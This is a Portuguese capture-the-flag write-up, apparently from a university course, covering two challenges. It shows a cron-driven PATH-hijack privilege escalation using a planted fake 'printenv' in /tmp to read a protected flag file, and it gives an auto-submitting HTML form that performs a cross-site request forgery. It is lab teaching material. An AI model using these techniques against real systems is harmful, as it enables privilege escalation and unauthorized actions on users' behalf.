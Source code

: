 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>

<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 



